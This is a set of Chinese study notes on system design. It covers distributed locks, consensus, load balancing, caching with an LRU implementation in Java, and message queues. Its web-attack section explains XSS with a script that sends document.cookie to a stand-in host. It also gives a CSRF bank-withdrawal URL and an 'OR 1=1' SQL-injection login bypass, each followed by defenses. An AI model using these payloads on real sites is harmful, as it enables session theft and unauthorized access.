

# 系统设计

## 系统设计基础

### 一、性能

#### 性能指标

1. 响应时间，指某个请求从发出到接收到响应消耗的时间，在对时间进行测试后，可以多次测量取平均值获得平均响应时间。
2. 吞吐量：指的是单位时间内可以处理的请求数量
3. 并发用户数：指的是可以同时处理的并发用户请求数量。多线程可以提高吞吐量，缩短响应时间，是因为线程多、对于IO可以等待处理切换到其他线程。并发用户数并不是越多越好，过多会导致系统无法请求。

#### 性能优化

1. 集群：多台服务器组成集群，使用负载均衡将请求转发到集群中，避免单一服务器的负载压力过大。
2. 缓存：缓存提高性能的原因如下：
   1. 缓存位于内存等介质中，访问较快
   2. 缓存可以位于靠近用户的地方，如缓存一些网页啊之类的，用户可以直接使用，就不用再次向服务器发送请求等。
   3. 将计算结果进行缓存，避免重复运算
3. 异步：将操作转换为消息，将消息发送到消息队列之后立即返回，之后这个操作会被异步处理，即可以多线程进行处理这个操作。

### 二、伸缩性

指不断向集群中添加服务器来缓解不断上升的用户并发访问压力和不断增长的数据存储需求。

#### 伸缩性和性能

如果系统存在性能问题，那么单个用户的请求总是很慢的。如果存在伸缩性问题，那么单个用户访问可能会较快，但是并发数高起来服务器资源跟不上就会变慢。

#### 实现伸缩性

应用服务器只要不具有状态，那么就可以很容易地通过负载均衡器向集群中添加新的服务器。关系型数据库的伸缩性通过Sharding即切分数据表来实现，将数据按一定的规则分布到不同的节点上，从而解决单台存储服务器的存储空间限制。

对于非关系型数据库，本身就是为了海量数据而诞生的，对伸缩性支持得特别好。

### 三、扩展性

指的是添加新功能时对于其他应用没有影响，这就要求不同应用之间低耦合

实现可扩展的方式有：

+ 使用消息队列进行解耦，应用之间通过消息传递进行通信，而不是用全局变量之类的
+ 使用分布式服务将业务和可复用的服务分离开来，业务使用分布式框架调用可复用的服务，新增的产品可以通过调用可复用的服务来实现业务逻辑，对其他产品没有影响。也就是复用的耦合的东西用一个接口进行调用，而不是互相之间随便乱调用。

### 四、可用性

#### 冗余

1. 保证高可用性的主要手段就是冗余，某个服务器故障了就调用其他服务器。
2. 服务器的冗余比较容易实现，只要保证服务器不具有状态，那么服务器故障的时候负载均衡器会将服务器原来的用户请求转发到另一个应用服务器上面，不会对用户有任何影响。
3. 存储服务器的冗余主要用主从复制来实现，主服务器故障的时候，提升从服务器为主服务器，这个过程叫做切换。主从复制的实现过程是三个线程，一个从主服务器读出内容到日志，一个读取到日志，还有一个将读出来的日志里面的操作再做一遍

#### 监控

1. 对CPU、内存、磁盘、网络等系统负载信息进行监控，当某个信息达到一定阈值的时候通知运维人员，从而在系统发生故障之前及时发现问题。

#### 服务降级

服务降级是为了应对大量的请求，主动关闭部分功能，从而保证核心功能的可用性。

### 五、安全性

要求系统在应对各种攻击手段能够有可靠的应对措施。

+++

## 分布式

### 一、分布式锁

在单机场景下，可以用语言的内置锁来实现进程同步，但是在分布式场景下，需要同步的进程可能位于不同的服务器节点，那么就需要用到分布式锁。

阻塞锁通常使用互斥量来实现

+ 互斥量为0说明有其他进程使用锁，此时处于锁定状态
+ 互斥量为1说明未锁定

1和0可以用一个整型值表示，也可以用某个数据是否存在表示

#### 数据库的唯一索引

获得锁的时候向表中插入一条数据，释放的时候删除这条记录，唯一索引可以保证该记录只被插入一次，那么就可以用这个数据是否插入在数据表中来判断是否处于锁定状态

存在的问题：

+ 锁没有失效时间，解锁失败的话其他进程就无法再次获得锁，也就是锁坏了之后不会自动消失，其他进程也无法再次获得锁
+ 只能是非阻塞锁，插入失败直接就报错了，无法重试。
+ 不可重入，已经获得锁的进程也必须重新获取锁。

#### Redis的SETNX指令

使用SETNX set if not exist，指令插入一个键值对，如果Key已经存在，那么就会返回False，否则就插入成功返回True

这个和数据库唯一索引类似，保证了只存在一个Key的键值对，那么就可以用Key的键值对是否存在来判断是否在锁定状态

EXPIRE指令可以为这个键值对设定一个过期时间，从而避免了数据库唯一索引实现方式中释放锁失败的问题，防止一个锁坏掉其他都不能用了

#### Redis的RedLock算法

1. 设计的基础：
   1. 一致性，互斥，不管任何时候都只能有一个客户端持有这个锁。安全性
   2. 分区可容忍性：不会死锁，最终一定会得到锁，就算一个持有锁的客户端宕机或者发生网络分区。即锁坏掉了还能用。效率属性A。
   3. 可用性：只要大多数Redis节点正常工作，客户端应该就能获取和释放锁。效率属性B。
2. 只是简单的给一个从机保证在主机宕机的时候可以使用是不行的，原因是无法保证安全互斥的原则，因为Redis的复制是异步的，把锁复制过去的时候可能就出现了两把锁。
3. 使用了多个Redis实例来实现分布式锁，这是为了保证在发送单点故障时仍然可用
   + 尝试从N个相互独立的Redis实例中获取锁。
   + 最初有一个总的锁释放时间，然后一个一个节点去申请锁。这时候有一个申请的阈值时间，超过这个时间就说明本节点损坏，直接连接下一个节点。申请锁的方式就是用相同的键值对去请求，最后获得一个总的申请锁时间。
   + 计算获取锁消耗的时间，只有时间小于锁的总的释放时间，并且从大多数即一半以上的实例上面获取了锁，才认为获取锁成功。此时就要更新总的释放时间，将在总的锁释放时间减去申请锁的时间之后释放这个锁。
   + 如果获取锁失败，不管是申请的时间超时还是节点数不足一半，这个申请都需要去每个节点上面释放锁，即使自己没有申请到的节点也要进行释放。

#### Zookeeper的有序节点

1. Zookeeper抽象模型：提供了一种树形结构的命令空间，/app1/p_1节点的父节点为/app1
2. 节点类型有三种，永久节点不会因为会话结束或者超时而消失。临时节点如果会话结束或者超时就消失。有序节点，会在节点名后面加一个数字后缀，而且有序的递增的。
3. 监听器：为一个节点注册监听器，节点状态发生改变时，会给客户端发送消息。
4. 分布式锁实现：创建一个锁目录/lock。当一个客户端需要获取锁的时候，在/lock下创建临时的且有序的子节点。客户端获取子节点列表，判断自己创建的子节点是否是当前子节点列表中序号最小的子节点，如果是则认为获得锁，否则就监听自己的前一个子节点，获得子节点变更通知后重复此步骤从而获得锁。最后执行业务代码，完成之后删除对应的子节点。
5. 会话超时：如果一个已经获得锁的会话超时了，因为创建的是临时节点，超时的话会被清除，那么其他会话就能获得锁了，这种情况不会出现数据库唯一索引的锁释放失败产生的问题
6. 羊群效应：一个节点未获得锁，只需要监听自己的前一个子节点，这是因为如果监听所有的子节点，那么任意一个子节点状态改变，其他所有节点都会收到通知，而我们只希望它的最后一个子节点收到通知。也就是说一个羊动的时候，其他羊也会跟着动。那么前一个子节点状态改变，我就收到了通知，当前节点就可以进行锁的获取。

### 二、分布式事务

指事务的操作位于不同的节点上面，需要保证事务的ACID特性。如下单场景，库存和订单如果不在一个节点上面，就涉及到分布式事务操作了。

分布式锁和事务的区别：

+ 锁问题主要是关于进程之间的互斥关系，比如银行账户的修改，没有互斥关系就不会有正确的修改结果。
+ 事务问题的关键在于事务涉及的一系列操作都需要ACID特征，可以说事务问题比锁问题更加高大。

#### 2PC

两阶段提交Two-phase Commit，通过引入协调者Coordinator来协调参与者的行为，并最终决定这些参与者是否要真正执行事务

1. 运行过程：

   1. 准备阶段：协调者询问参与者事务是否执行成功，参与者返回事务执行结果，询问可以堪称是一种投票，需要参与者都同意才能执行。

      

   2. 提交阶段：如果事务在每个参与者上面都执行成功，事务协调者发送通知让参与者提交事务，否则协调者发送通知让参与者回滚。准备阶段完成了事务，但是还没有提交，在经过协调者确认之后才会提交或者回滚。有这个的目的就是有一个统一的过程来决定事务是否提交，对整体情况进行一个把控。

2. 存在的问题：

   1. 同步阻塞：所有事务参与者在等待其他参与者响应的时候处于阻塞状态，因为有一个事务还要等着提交或者回滚，所有这时候是不能进行其他操作的，占用资源，效率不高
   2. 单点问题：协调者发生了故障会导致很大的错误发生，因为最重要的节点丢失了信息，大家都会阻塞在哪里等待回应
   3. 数据不一致：提交阶段，如果协调者只发送了部分commit信息，网络异常之后，只有部分参与者收到信息，这样使得数据不一致
   4. 太过保守：任意一个节点失败就会导致整个事务失败，这样没有完善的容错机制，不太行。

#### 本地消息表

本地消息表和业务数据处于同一个数据库中，这样就可以利用本地事务来保证对这个表的操作满足事务特性。并且使用了消息队列来保证最终一致性。

1. 在分布式事务操作的一方完成写业务数据的操作之后向本地消息表发送一个消息，本地事务能保证这个消息一定会被写入本地消息表中

2. 之后将本地消息表中的消息转发到消息队列中，如果转发成功则将消息从本地消息表中删除，否则重新继续转发

3. 在分布式事务操作的另一方从消息队列中读取一个消息，并且执行消息中的操作。

4. 这个就是进行本地的消息存储，再用消息队列进行通信：

   

### 三、CAP

分布式系统不可能同时满足CAP Consistency Availablity Partition Tolerance，即一致性、可用性、分区容忍性，最多只能同时满足其中两项：


#### 一致性 Consistency

一致性指的是多个数据副本能否保持一致的特性，在一致性的条件下，系统在执行数据更新操作之后能够从一致性状态转移到另一个一致状态。对一个数据更新成功之后，如果每个用户都能够读取到最新的值，该系统就被认为具有一致性

#### 可用性 Availablity

可用性指的是分布式系统在面对各种异常的时候可以提供正常服务的能力，可以用系统可用时间占总时间的比值来衡量，4个9的可用性表示系统99.99%的时间是可用的

在可用性条件下，要求系统提供的服务一直处于可用的状态，对于用户的每个操作请求总是能够在有限的时间内返回结果。

#### 分区容忍性 Partition Tolerance

网络分区指的是分布式系统中的节点被划分为多个区域，每个区域内部可以通信，但是区域之间无法通信。在分区容忍性条件下，分布式系统在遇到任何网络分区故障的时候，仍然需要对外提出一致性和可用性的服务，除非是整个网络环境都发生了故障。即部分网络损坏的时候，要有可以在故障下仍正常通信的能力。

#### 权衡

在分布式系统里面，分区容忍性是必不可少的，因为需要假设网络总是不可靠的。因此CAP理论实际上是要在可用性和一致性之间权衡。

可用性和一致性常常是冲突的，很难同时满足，在多个节点之间进行数据同步的时候：

+ 为了保证一致性CP，不能访问未同步完成的节点，也就失去了部分可用性
+ 为了保证可用性AP，允许读取所有节点的数据，但是数据可能不一致。

### 四、BASE

BASE是基本可用Basically Available、软状态Soft State，和最终一致性Eventually Consistent三个短语的缩写。

BASE理论是对可用性和一致性权衡的结果，核心思想是：即使无法做到强一致性，但每个业务应该根据自身特点采用适当的方式来使系统达到最终一致性。

#### 基本可用

指分布式系统出现故障的时候，保证核心可用，允许损失部分可用性。

比如电商在做促销的时候，为了保证系统的稳定性，部分消费者会被引导到一个降级的界面。

#### 软状态

指允许系统中的数据存在中间状态，并认为该中间状态不会影响整个系统的可用性，允许不同节点之间的副本的同步过程存在时延

#### 最终一致性

最终一致性强调在一段时间后最终是一致的状态。

ACID要求强一致性，通常在传统数据库上面，但是这里BASE只要求最终一致即可。通过牺牲强一致性来达到可用性，通常运用在大型分布式系统中。

在实际的分布式场景中，不同业务单元和组件对一致性的要求是不同的，所以ACID和BASE会结合使用。

### 五、Paxos

用于达成共识性问题，即对多个节点产生的值，该算法能保证只选出唯一一个值。

主要有三类节点：提议者Proposer提议一个值、接收者Acceptor对每个提议进行投票、告知者Learner被告知投票的结果，不参与投票过程


#### 执行过程

规定一个提议包含两个字段[n,v]，n是序号，v是提议值。

1. Prepare阶段：

   

   有两个提议者和三个接收者。接受者收到准备请求，包含的提议为[n1,v1]，并且之前没有接受过prepare的请求，就发送一个响应，设置当前收到的为n1,v1，并且保证之后收到的序号都大于n1。如果没有收到过返回的就是no previous的prepare响应。

   如果收到了一个序号小于当前序号的请求，那就丢弃这个小值的序号。如果收到序号更大，就返回对应响应，再设置当前值为新的大值。收到序号更大的时候，会返回之前存储的[n0,v0]值，它的v值可能更大，所以返回到Proposer的时候的值就不再是Proposer之前发送的值了。

#### Accept阶段

当一个Proposer收到超过一半的Acceptor的prepare响应的时候，就可以发送Accept请求了。取最大提议编号的v值进行发送，发送给Acceptor。这个值是由Acceptor返回的，值可能会比自己之前发送的值大。

#### Learn阶段

Acceptor收到Accept请求时，如果序号大于等于该Acceptor承诺的最小序号，那么就发送Learn提议给所有的Learner，当Learner发现有大多数的Acceptor接收了某个提议，那么该提议的提议值就被Paxos选择出来。

#### 约束条件

1. 正确性：指只有一个提议值能生效。因为Paxos协议要求每个生效的提议被大多数的Acceptor接收，并且Acceptor只能接收一个提议(最大序号)，所以可以保证正确性。
2. 可终止性：指最后总有一个提议生效。Paxos能够让Proposer发送的提议朝着被大多数Acceptor接收的那个提议靠拢，所以可以最后终止。因为Acceptor会根据序号返回对应值，这个值就会使得Proposer进行更改。总是在向大家都接收的值哪里靠近的，

### 六、Raft

Raft也是分布式一致性协议，主要用来竞选主节点。

#### 单个Candidate的竞选

有三种节点，Follower、Candidate和Leader，Leader会周期性地发送心跳包给Follower，每个Follower否设置一个随机的竞选超时时间，一般为150ms-300ms，如果在这个时间内没有收到心跳包，就会变成Candidate，进入竞选阶段。

1. 一开始都是Follower，没有Leader，所以某个节点等待了一段时间，没有等到就变成了Candidate。

2. 此时会发送投票请求给其他所有节点，其他节点进行回复，如果超过一半的节点回复了，那么就变成了Leader。

3. 之后它就会周期性地发送包给Follower，当没有给某一个发送了之后，又进行同样的Candidate的过程。

#### 多个Candidate的竞选

1. 如果多个Follower成为Candidate，并且所获的票数相同，就需要重新投票。
2. 由于每个节点设置的随机竞选超时时间不同，因此下次再出现多个Candidate且投票获得同样票数的概率很低，这样就可以实现选出一个Leader。

#### 数据同步

1. 来自客户端的修改都会传入Leader，注意此时修改没有提交，只是写入了日志中。
2. Leader会把所有修改复制到Follower里面
3. Leader会等待**大多数**的Follower都进行了修改，然后才提交修改
4. 此时Leader会通知所有的Follower让他们都进行修改，这样才让所有数据一样了。

## 集群

### 一、负载均衡

集群中的应用服务器节点通常被设置为无状态，用户可以请求任何一个节点。负载均衡器会根据集群中每个节点的负载情况，将用户请求转发到合适的节点上。负载均衡器用来实现高可用性和伸缩性：

+ 高可用：当某个节点故障时，会将用户请求转移到另一个节点，保证所有服务可用
+ 伸缩性：根据系统整体负载情况，可以很容易地添加或者移除节点。

负载均衡器的运行过程包括两个部分：

1. 根据负载均衡算法得到转发的节点
2. 进行转发

#### 负载均衡算法

1. 轮询 Round Robin: 轮询算法把每个请求轮流发送到每个服务器上，即，一个请求给1，一个给2。这个算法适合每个服务器节点性能差不多的情形，如果差距过大，那么性能差的就无法承担过大的负载。
2. 加权轮询Weighted Round Robin：根据服务器的性能差异，进行加权，性能高的权值高。负担大的就会分配到权值高的节点上面
3. 最少连接Least connections：每个连接时间不一样，那么前两种方法就可能导致某些服务器连接数过大，一些又过小，负载不均衡。这个算法就是为了解决这个问题，将请求发送到连接数目最少的服务器上面。
4. 加权最少连接：weighted Least Connection，在最少连接的基础上，根据服务器性能加上权重，再根据权重计算出每台服务器能处理的连接数。就是权重减去当前连接数的意思吧？
5. 随机算法，随机连接，和轮询差不多
6. 源地址hash算法，对客户端ip地址计算哈希值之后，再对服务器数量取模得到目标服务器的序号，可以保证同一个ip的客户端请求发送到同一台服务器上，用来实现会话粘滞Sticky Session。

#### 转发实现

1. HTTP重定向：用某种均衡算法获得目标服务器地址之后，将地址写到http报文里面，状态码是302，客户端收到这个报文状态码，就去目标地址进行再次请求。缺点就是需要两次请求，访问延迟较高。HTTP负载均衡器的能力有限，也会限制集群的规模发展。这种重定向的方式缺点较为明显，所以实际场景很少使用它。
2. DNS域名解析：在DNS域名解析的时候同时用负载均衡算法计算服务器ip地址。DNS能根据地理位置进行域名解析，返回离用户最近的服务器ip地址。但是dns有多级结构，每个都有缓存，当下一级的需要更改DNS缓存的时候，需要很长一段时间才可以生效。大型网站的方法是把DNS作为第一重手段，返回的是内部的负载均衡器的IP地址，然后再在负载均衡器里面进行二次分配。
3. 反向代理服务器：反向代理服务器位于源服务器前面，用户的请求需要先经过反向代理服务器才能到达源服务器。反向代理可以用来进行缓存、日志记录等，同时也可以用来作为负载均衡服务器。这样的情况下，客户端不直接请求源服务器地址，反向代理里面存放内部和外部两套ip地址，服务器则只需要一个内部地址即可。优点是与其他功能集成在一起，部署简单，但是缺点是所有请求和响应都要经过这个反向代理服务器，可能会成为性能瓶颈。这个可以用来做web加速，即作为服务器前置来降低网络和服务器的负载。
4. 网络层：在操作系统内核进程获取网络数据包，根据负载均衡算法计算源服务器的ip地址，并修改请求数据表的目的ip地址，最后进行转发。这个的意思就是在内核里面进行修改和计算，这样性能较高。但是因为本身还需要经过负载均衡服务器，所以也有一个性能瓶颈可能存在。
5. 链路层：在链路层根据负载均衡算法计算源服务器的MAC地址，并修改请求数据报的目的MAC地址，并进行转发。这里就不用修改ip地址，从而可以避开负载均衡服务器，因为直接更改mac地址，不需要再找到ip地址，所以不用回到负载均衡服务器。这种适合用在提供下载和视频服务的网站，使大量数据传输不用多走一道。这是目前大型网站用的最广的负载均衡转发方式，在Linux平台可以使用的负载均衡服务器是LVS Linux virtual Server

### 二、集群下的Session管理

一个用户的Session只存储在一个服务器上面，那么当负载均衡器将请求转发到另一台服务器的时候，就没有本地的缓存session了，那么就需要用户重新登录等操作。

#### Sticky Session

配置负载均衡器，让同一个用户的请求都到同一个服务器，这样就可以把用户的Session存放在该服务器上。缺点是这个服务器宕机之后就会丢失这个服务器上面所有的session。

#### Session Replication

在服务器之间进行Session的同步操作，每个服务器都有所有用户的Session消息。

缺点就是占用内存过多，进行同步也占用网络带宽和服务器处理器时间。

#### Session Server

使用一个单独的服务器存储Session数据，可以使用传统的MySQL也可用Redis或者Memcached这种内存型数据库。

优点就是为了使得大型网站有伸缩性，集群中的应用服务器通常要保持无状态，那么应用服务器就不能进行Session的存储，如果用单独的服务器进行存储，那就可以保证无状态的服务器。

缺点就是需要进行Session的读取

## 攻击技术

### 一、跨站脚本攻击

#### 概念

跨站脚本攻击Cross-Site Scripting XSS，可以将代码注入到用户浏览的网页上，这种代码包括HTML和JavaScript

#### 攻击原理

例如有一个论坛网站，攻击者可以在上面发布以下内容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：

```html
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

也就是通过这样将cookie带过去，然后就可用这个cookie进行目标网站的登录

#### 危害

+ 窃取用户cookie
+ 伪造虚假的输入表单骗取个人信息，让用户输入自己的信息
+ 显示伪造的文章或者图片

#### 防范手段

1. 设置Cookie为HttpOnly，可以防止JavaScript调用Cookie，这样就不能通过上面写的document.cookie获取到用户的Cookie信息

2. 过滤特殊字符，如将<转义为\&lt;，将>转义为\&gt，避免HTML和JavaScript代码的混乱。富文本因为允许用户输入HTML代码，就不能简单地进行一个<符号的过滤了。

   所以富文本编辑器通常采用XSS filter来防范，通过定义一些标签白名单或者黑名单，禁止一些有攻击性的HTML代码输入。

### 二、跨站请求伪造

#### 概念

跨站进行伪造 Cross-site request forgery，CSRF。攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并且执行一些操作，比如发邮件发消息甚至是财产操作等。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。这个利用的是网站对用户浏览器的信任。

#### 攻击原理

假如一家银行用以执行转账操作的 URL 地址如下：

```text
http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName。
```

那么，一个恶意攻击者可以在另一个网站上放置如下代码：

```html
。
```

如果有账户名为 Alice 的用户访问了恶意站点，而她之前刚访问过银行不久，登录信息尚未过期，那么她就会损失 1000 美元。

只需要放一个链接，有人点进去就会损失。因为利用了浏览器的信任，浏览器以为是实际的用户在操作。这样只是做一个欺骗，但是没有实际的控制用户的账户。

#### 防范手段

1. 检查Referer首部字段，在http报文里面，用于标识来源的地址，检查这个首部字段并且要求请求来源的地址在同一个域名下，可以极大的防止CSRF攻击。这个方法简单，但是有局限性，因为这个要求浏览器发送正确的字段，浏览器不一定会按规定发送，也可能浏览器受到攻击被改变Referer字段。
2. 添加校验Token，在访问敏感数据请求时，要求用户浏览器提供不保存在cookie且攻击者无法伪造的数据作为校验，比如服务器生成了随机数要求客户端传回这个随机数。
3. 输入验证码：因为这个主要是无意识的操作，要是让用户有一定操作，就可避免这一类共计。

### 三、SQL注入攻击

服务器上的数据库运行了非法的SQL语句，主要通过拼接完成，

#### 攻击原理

例如一个网站登录验证的 SQL 查询代码为：

```sql
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

如果填入以下内容：

```sql
userName = "1' OR '1'='1";
passWord = "1' OR '1'='1";
```

那么 SQL 查询字符串为：

```sql
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
```

此时无需验证通过就能执行以下查询：

```sql
strSQL = "SELECT * FROM users;"
```

相当于一下子改了查询条件，所有内容都会被查出来。

#### 防范手段

1. 用参数化查询，Java 中的 PreparedStatement 是预先编译的 SQL 语句，可以传入适当参数并且多次执行。由于没有拼接的过程，因此可以防止 SQL 注入的发生。

   ```java
   PreparedStatement stmt = connection.prepareStatement("SELECT * FROM users WHERE userid=? AND password=?");
   stmt.setString(1, userid);
   stmt.setString(2, password);
   ResultSet rs = stmt.executeQuery();
   ```

   用字符串设计参数，而不是用拼接的方法，否则拼接的参数会被修改。

2. 单引号转换：将引入的参数的单引号转换为连续两个单引号，这样拼接的字符进来就会有问题，不再是符合sql查询的语句。

### 四、拒绝服务攻击

Denial-of Service attack DoS，也称为洪水攻击，目的在于让目标服务器的网络或者系统资源被耗尽让服务暂时中断或者停止，导致正常用户无法访问。

分布式拒绝服务攻击distributed denial of service attack，DDoS，指攻击者使用两个及以上被贡献的电脑作为僵尸向特定的目标发动这样的攻击。

## 缓存

### 一、缓存特征

1. 命中率：当某个请求能够通过访问缓存得到响应时，称为缓存命中，也就是在缓存中hit了请求的响应。缓存命中率越高则缓存利用率越高。
2. 最大空间：缓存通常位于内存中，缓存最大空间不可能非常大，当数据量超过最大空间就需要淘汰部分数据来存放新的数据。
3. 淘汰策略：
   1. FIFO，先进先出，最先进入的就淘汰
   2. LRU，最近最久未使用，优先淘汰最久没有使用的数据。保证留下来的都是热点数据
   3. LFU least frequently used，最不经常使用策略，优先淘汰最近使用次数最少的数据。

### 二、缓存位置

1. 浏览器，当Http响应允许进行缓存时，浏览器会将HTML CSS JavaScript 图片等静态资源进行缓存
2. ISP 网络服务提供商是网络访问的第一跳，通过将数据缓存在ISP中可以大大提高用户的访问速度
3. 反向代理，位于服务器之前，请求和响应都要经过反向代理，通过数据存在里面，在用户请求反向代理的时候就可以直接用缓存进行响应，
4. 本地缓存，使用Guava Cache将数据存在服务器本地内存里，服务器代码可以直接读取本地内存中的缓存，速度非常快。
5. 分布式缓存，用Redis、Memcache等分布式缓存将数据缓存在分布式缓存系统中，相对于本地缓存来说，分布式缓存单独存储，可以根据需求分配硬件资源，服务器集群都可以对缓存进行访问，不需要像本地缓存一样进行同步。
6. 数据库缓存MySQL等数据库具有自己的查询缓存机制来提高查询效率。
7. Java内部的缓存，Java为了优化空间、提高字符串、基本数据类型包装类的创建效率，设计了字符串常量池即Byte Byte Character Integer Long Boolean这六种包装类缓冲池。
8. cpu多级缓存，cpu本身有多级缓存机制，同时用了MESI等缓存一致性协议来解决多核CPU缓存数据一致性的问题。

### 三、CDN

内容分发网络Content distribution network，CDN是一种互连的网络系统，它利用更靠近用户的服务器从而更可靠地将HTML CSS JavaScript等静态资源分发给用户。就是利用一些边缘的服务器进行存储，然后在请求的时候就近返回缓存的内容

CDN有以下优点：

+ 更快地将数据分发给用户
+ 通过部署多台服务器，从而提高系统整体的带宽性能。
+ 多台服务器可以看成是一种冗余机制，从而具有可用性。


### 四、缓存问题

1. 缓存穿透：指的是对某个一定不存在的数据进行请求，该请求会穿透缓存最后在数据库中找到。解决方法是：对不存在的数据缓存一个空数据，或者对这类请求进行过滤，校验数据。boolom过滤器布隆。

2. 缓存雪崩：指的是由于数据没有被加载到缓存中，或者缓存数据在同一时间大面积失效，又或者缓存服务器宕机，大部分请求都到了数据库进行查找。

   在有缓存的情况下，系统很依赖于缓存，缓存承担了很大一部分的数据请求，但是缓存雪崩的时候，数据库没办法处理这么大的请求，数据库会崩溃。

   解决方法：

   + 为了防止同一时间大面积过期导致的缓存雪崩，可以通过观察用户行为，合理设置缓存过期时间来实现，比如随机时间
   + 可以用分布式缓存，不再是只在一个服务器里面。一个节点宕机不会影响到所有节点。
   + 进行缓存预热，避免在刚刚启动的时候大量数据并未缓存而导致雪崩。

3. 缓存击穿：是一个热点的key突然失效了在高并发的时候失效了，解决办法就是设置热点数据永不过期或者设置一个分布式锁，只有第一次拿到锁的时候会去数据库访问，访问结束又会把数据放到缓存里面。

4. 缓存一致性：要求数据更新的时候缓存数据也要可以实时更新。解决方法是：数据更新时马上更新缓存、读缓存之前先判断缓存是否最新，不是最新就先更新。

   要保证一致性需要付出很大的代价，缓存数据最好是那些一致性要求不高的数据，允许缓存存在一定的脏数据。

5. 缓存无底洞现象：指的是为了满足业务要求添加了大量缓存节点，但是性能反而降低了。原因是缓存系统常常用的是hash函数将key映射到对应的缓存节点，随着缓存节点数的增加，键值分布在更多的节点上面，导致一次客户端批量操作涉及了多个节点之间的网络操作，这样批量操作耗时随着节点数增加而不断增大。网络连接数过多性能影响也很大。

   解决方案是：优化批量数据操作命令、减少网络通信次数、降低接入成本，使用长连接、连接池、NIO等。

### 五、数据分布

1. hash分布：计算hash值之后根据hash值分配到不同的节点上，hash(key)%N。传统的哈希分布算法有一个问题，节点数量变化的时候，N值变化，那么几乎所有数据都需要重新分布，大量数据需要迁移。在hashmap里面有一个扩充，容量不够的时候会扩充，N值是2的几次方，这样改变的时候一半的数据不需要改变位置重新计算。
2. 顺序分布，将数据分为多个连续的部分，根据ID或者时间分布到不同节点上面。顺序分布的优势在于：能保持数据原有的顺序，并且能够准确控制每台服务器存储的数据量，从而使得存储空间的利用率最大。

### 六、一致性哈希

Distributed Hash Table DHT是一种哈希分布方式，其目的是为了克服传统哈希分布在服务器节点数量变化时大量数据迁移的问题。也就是hash扩充的时候解决数据重新计算hash值的问题。

#### 基本原理

把hash空间[0,$2^n-1$]看成一个hash环，每个服务器节点都配置到hash环上面，每个数据对象通hash取模得到hash值之后，存放到hash环中顺时针方向大于等于该hash值的节点上，


一致性哈希在增加或者删除节点时只会影响到哈希环中相邻的节点

#### 虚拟节点

上面描述的一致性hash存在数据分布不均匀的问题，节点存储的数据量可能会存在很大的不同。在数量少的时候，只有一部分节点上面有内容，解决方法就是增加虚拟节点，然后把虚拟节点映射到真实节点上面，虚拟节点数目更多，所以分布性问题就比真实节点好。

### 七、LRU

基于双向链表+HashMap的LRU算法实现，

+ 访问某个节点的时候，将其从原来的位置删除，并且重新插入到链表头部，这样就可以保证链表尾部存储的就是最近最久未使用的节点，节点数目大于缓存最大空间的时候就淘汰尾部节点。
+ 为了使删除操作时间复杂度也是O(1)，就不能用遍历去链表中寻找，在map里面存储key到节点的映射，通过key就可以O(1)时间访问得到节点，再进行删除。主要是有双向链表，所以得到链表节点可以直接删除。

```java
public class LRU<K, V> implements Iterable<K> {

    private Node head;//双向链表
    private Node tail;
    private HashMap<K, Node> map;//hashmap
    private int maxSize;//最大存储容量

    private class Node {//内部类，作为链表节点定义

        Node pre;
        Node next;
        K k;
        V v;

        public Node(K k, V v) {
            this.k = k;
            this.v = v;
        }
    }


    public LRU(int maxSize) {//构造函数

        this.maxSize = maxSize;//大小预定
        this.map = new HashMap<>(maxSize * 4 / 3);//大小

        head = new Node(null, null);//头尾节点
        tail = new Node(null, null);

        head.next = tail;
        tail.pre = head;
    }


    public V get(K key) {//获取

        if (!map.containsKey(key)) {//不存在
            return null;
        }

        Node node = map.get(key);//获得节点
        unlink(node);
        appendHead(node);//放到链表头

        return node.v;
    }


    public void put(K key, V value) {//放入

        if (map.containsKey(key)) {//如果已经存在
            Node node = map.get(key);
            unlink(node);//删除当前存在的
        }

        Node node = new Node(key, value);
        map.put(key, node);//放入
        appendHead(node);//且要放在链表头部

        if (map.size() > maxSize) {//大小够大了
            Node toRemove = removeTail();//删除尾部
            map.remove(toRemove.k);//map也删除
        }
    }


    private void unlink(Node node) {//双向链表里面解绑

        Node pre = node.pre;
        Node next = node.next;

        pre.next = next;
        next.pre = pre;

        node.pre = null;
        node.next = null;
    }


    private void appendHead(Node node) {//链表尾部
        Node next = head.next;
        node.next = next;
        next.pre = node;
        node.pre = head;
        head.next = node;
    }


    private Node removeTail() {//删除尾部

        Node node = tail.pre;

        Node pre = node.pre;
        tail.pre = pre;
        pre.next = tail;

        node.pre = null;
        node.next = null;

        return node;
    }


    @Override
    public Iterator<K> iterator() {//迭代器

        return new Iterator<K>() {
            private Node cur = head.next;

            @Override
            public boolean hasNext() {
                return cur != tail;
            }

            @Override
            public K next() {
                Node node = cur;
                cur = cur.next;
                return node.k;
            }
        };
    }
}
```

## 消息队列

### 一、消息模型

1. 点对点：生产者发送的消息只能被消费一次

   

2. 发布/订阅：发送一个消息，多个消费者都可以收到这个消息。

   这个和观察者模式不一样：

   + 观察者模式中，观察者和主题都知道对方的存在，而在发布与订阅模式中，生产者与消费者不知道对方的存在，只是通过频道进行通信。
   + 观察者模式是同步的，当事件触发时，主题会调用观察者的方法，然后等待方法返回，发布和订阅模式是异步的，生产者向频道发送一个消息之后，就不用关心啥时候被消费了。

